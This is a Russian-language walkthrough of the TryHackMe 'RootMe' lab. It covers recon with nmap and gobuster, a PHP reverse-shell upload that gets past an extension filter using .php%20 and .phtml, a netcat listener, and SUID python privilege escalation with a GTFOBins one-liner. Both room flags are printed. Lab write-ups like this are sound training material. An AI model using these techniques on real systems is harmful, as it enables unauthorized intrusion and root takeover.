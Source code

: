 # TryHackMe: RootMe

## Task 1: Deploy the machine
:heavy_check_mark: Complited 

## Task 2: Reconnaissance
### Question 1: Scan the machine, how many ports are open? What version of Apache is running? What service is running on port 22?

Используем nmap для сканирования машины:
```sh
nmap -sC -sV 10.10.82.34
```

![ScreenShot](screenshots/1.png)

Мы нашли:
- 22 port - SSH (OpenSSH)
- 80 port - HTTP (Apache httpd 2.4.29)

Видим, что открыт HTTP-порт, в таком случае попробуем зайти на сайт:

![ScreenShot](screenshots/2.png)

Посмотрев на исходный код страницы, ничего интересного обнаружить не удалось.

Далее с помощью инструмента GoBuster ищем директории ресурса:
```sh
gobuster dir -u http://10.10.82.34/ -w /usr/share/wordlists/dirb/common.txt
```
Результат показан ниже:

![ScreenShot](screenshots/3.png)

Помимо всего прочего, находим и скрытую директорию */panel/*.

## Task 3: Getting a shell
Переходим в директорию */panel* на сайте и видим форму для загрузки файла:

![ScreenShot](screenshots/4.png)

Если попытаемся загрузить какой-нибудь файл, то получим ошибку. Откроем и посмотрим, что нам скажет hint к заданию: Search for "file upload bypass" and "PHP reverse shell".

Если загуглить второй вариант с PHP reverse shell, можно найти ссылку на github с файлом для нужных нам целей (https://github.com/pentestmonkey/php-reverse-shell)

Откроем файл и поменяем в нем некоторые данные, а именно, значения переменных *$ip* и *$port*. 
- *$ip* - пишем наш ip-адрес, который стоит у нас в разделе *tun0*, его можно посмотреть с помощью команды ifconfig или на сайте THM.
- *$port* - устанавливаем порт, который впоследствии будет прослушивать netcat. В моем случае это порт 4444.

![ScreenShot](screenshots/5.png)

Теперь, попробуем загрузить наш вредоносный файл на сервер при помощи формы в директории */panel*. В результате получаем ошибку - *PHP-файлы не разрешены*

![ScreenShot](screenshots/6.png)

Тут нам на помощь приходит вторая подсказка, поэтому, посмотрев, как происходит обход фильтрации, попробуем некоторые варианты:
1) Поменяем регистр букв в расширении (используем .pHp) - не сработало
2) Попробуем добавить спец. символ в конце (используем .php%20) - успех

Дополнительно варианты можно посмотреть по ссылке: https://book.hacktricks.xyz/pentesting-web/file-upload

![ScreenShot](screenshots/7.png)

Теперь на вкладке /uploads можно увидеть наш загруженный скрипт:

![ScreenShot](screenshots/8.png)

При помощи netcat слушаем порт 4444:
```sh
nc -lvnp 4444
```
Нажимаем на наш скрипт на сайте в разделе /uploads, но получаем ошибку:

![ScreenShot](screenshots/9.png)

Попробуем загрузить этот же файл с другим расширением (.phtml):

![ScreenShot](screenshots/10.png)

Есть! Мы получили reverse shell! Теперь, необходимо найти флаг. Походив по директориям, можно найти файл user.txt, где и находится флаг к заданию 3. 

Путь до файла: */var/www*

Флаг: *THM{y0u_g0t_a_sh3ll}*

![ScreenShot](screenshots/11.png)

## Task 4: Privilege escalation
Теперь нам необходимо повысить привилегии, но для этого, нужно за что-то "зацепиться".

### Question 2: Search for files with SUID permission, which file is weird?
Попробуем найти файлы/директории, которые УЖЕ доступны без суперпользователя:
```sh
find / -user root -perm /4000
```
Из интересного и полезного находим доступ к python:

![ScreenShot](screenshots/12.png)

### Question 3: Find a form to escalate your privileges. Read the root.txt to get a flag.
Мы выяснили, что у нас УЖЕ есть доступ к python, но как с помощью него можно повысить привилегии? Попробуем загуглить "python prevesc". По первой ссылке находим ресурс по названием GTFOBins. Далее в поисковой строке вбиваем *python* и смотрим в раздел SUID. 

![ScreenShot](screenshots/13.png)

Переходим в директорию /usr/bin:
```sh
cd usr/bin/
```
Нам нужна вторая команда:
```sh
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
После того, как команда сработала, проверим, кем мы являемся теперь:
```sh
whoami
```
![ScreenShot](screenshots/14.png)

Далее ищем директорию известного нам файла *root.txt*:
```sh
find / -iname root.txt
```
Читаем файл:
```sh
cat /root/root.txt
```
![ScreenShot](screenshots/15.png)

Флаг: *THM{pr1v1l3g3_3sc4l4t10n}*
